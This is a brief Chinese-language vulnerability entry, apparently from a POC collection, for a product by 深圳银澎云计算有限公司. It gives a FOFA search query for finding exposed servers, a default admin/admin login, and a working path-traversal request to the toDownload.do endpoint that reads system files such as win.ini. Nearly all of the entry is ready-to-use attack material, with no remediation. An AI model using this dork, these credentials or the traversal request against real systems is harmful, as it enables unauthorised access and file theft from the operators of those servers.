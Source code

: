 ### 描述
系统存在弱口令和任意文件下载漏洞
fofa "深圳银澎云计算有限公司"

### POC & EXP
```
# 弱口令
admin/admin

任意文件下载
/register/toDownload.do?fileName=敏感文件路径
（https://xxxxxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini）
```
